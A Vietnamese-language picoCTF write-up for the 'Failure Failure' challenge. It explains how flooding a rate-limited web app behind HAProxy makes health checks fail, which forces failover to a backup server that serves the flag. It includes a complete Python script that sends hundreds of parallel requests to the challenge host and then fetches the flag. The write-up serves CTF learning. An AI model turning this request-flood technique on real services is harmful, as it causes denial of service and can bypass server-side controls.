






# picoCTF Writeup - Failure Failure

## Mục tiêu
Dưới đây là mô tả chi tiết từ đề bài:



Lợi dụng cơ chế failover (chuyển đổi dự phòng) của load balancer để vô hiệu hóa máy chủ chính (primary server), ép hệ thống chuyển hướng truy cập sang máy chủ dự phòng (backup server) nhằm lấy được flag.

## Phân tích
Dựa trên các dữ kiện thu thập được từ mã nguồn `app.py` và `haproxy.cfg`:
- **Dấu hiệu:**
    - Ứng dụng web được đặt sau một HAProxy Load Balancer.
    - Trong `app.py`, ứng dụng kiểm tra biến môi trường `IS_BACKUP`. Nếu `IS_BACKUP="yes"`, nó sẽ trả về flag. Ngược lại, nó báo "No flag in this service".
    - Ứng dụng có cơ chế Rate Limit toàn cục: tối đa `300 requests / phút`. Nếu vượt quá, server trả về mã lỗi HTTP `503 Service Unavailable`.

- **Lỗ hổng:** 
    - Cấu hình HAProxy (`haproxy.cfg`) thiết lập 2 backend server: `s1` (chính) và `s2` (dự phòng - có cờ `backup`).
    - HAProxy thực hiện health check bằng cách gửi request HTTP `GET /` và mong đợi phản hồi HTTP `200`.
    - Nếu ta làm cho `s1` trả về lỗi (như `503` do vượt Rate Limit) trong vài lần liên tiếp (`inter 2s fall 2` - kiểm tra mỗi 2 giây, nếu lỗi 2 lần liên tiếp sẽ bị đánh dấu là down), HAProxy sẽ tự động chuyển toàn bộ request tiếp theo sang máy chủ backup `s2`.

- **Ý tưởng:** 
    - Gửi ồ ạt hơn 300 requests đến mục tiêu trong thời gian ngắn để kích hoạt Rate Limit của `s1`.
    - Khi `s1` bắt đầu trả về lỗi `503` hoặc `429`, ta dừng việc gửi request và chờ khoảng 8 giây để chắc chắn HAProxy đã đánh dấu `s1` là "down" (2 lần x 2s = 4s, chờ 8s cho an toàn).
    - Gửi một request cuối cùng, lúc này HAProxy sẽ đẩy request về phía `s2` (máy chủ backup), qua đó lấy được flag.

## Khai thác

Các bước thực hiện chi tiét:
1. **Chuẩn bị kịch bản (Script) khai thác:**
Chúng ta sử dụng thư viện `requests` và `ThreadPoolExecutor` của Python để thực hiện việc gửi request song song nhằm nhanh chóng đạt ngưỡng rate limit.
Tạo file `solve.py` với nội dung như sau:
```bash
import requests
import time
from concurrent.futures import ThreadPoolExecutor

# Thay thế bằng link thực tế của challenge
TARGET_URL = "http://mysterious-sea.picoctf.net:53753/"

session = requests.Session()
is_503_reached = False

def send_req():
    global is_503_reached
    if is_503_reached:
        return
    try:
        r = session.get(TARGET_URL, timeout=3)
        # Kiểm tra xem rate limit đã bị kích hoạt chưa
        if r.status_code == 503 or r.status_code == 429:
            is_503_reached = True
    except:
        pass

def main():
    print("[*] Bước 1: Bắt đầu spam requests...")
    
    # Dùng 30 workers để gửi request liên tục và ổn định
    with ThreadPoolExecutor(max_workers=30) as executor:
        for _ in range(400):
            executor.submit(send_req)
            if is_503_reached:
                break
                
    if not is_503_reached:
        print("[-] Kịch bản thất bại: Server s1 chưa trả về lỗi 503.")
        print("    Có thể Rate Limit chưa đạt mốc. Hãy thử chạy lại script ngay lập tức!")
        return

    print("[+] Đã kích hoạt 503 thành công! s1 đang từ chối request.")
    
    # Chờ 8 giây để đảm bảo HAProxy (check 2s x 2 lần) phát hiện và loại s1
    print("[*] Bước 2: Chờ 8 giây để HAProxy failover sang s2...")
    time.sleep(8)
    
    print("[*] Bước 3: Lấy cờ từ s2...")
    try:
        r = requests.get(TARGET_URL)
        print("\n[🎉] KẾT QUẢ:")
        print("-" * 30)
        print(r.text)
        print("-" * 30)
    except Exception as e:
        print("[-] Lỗi lấy cờ:", e)

if __name__ == "__main__":
    main()
```

2. **Thực thi tấn công:***
Mở terminal và chạy đoạn mã trên:
```bash
python3 solve.py
```
Khi chạy, script sẽ tự động tạo đủ số lượng request cần thiết để server chính bị chặn, đợi cho đến khi load balancer chuyển hướng đến máy chủ dự phòng, và in ra nội dung có chứa Flag ở kết quả trả về cuối cùng.


Các bước được mô tả bằng hình ảnh chi tiết:










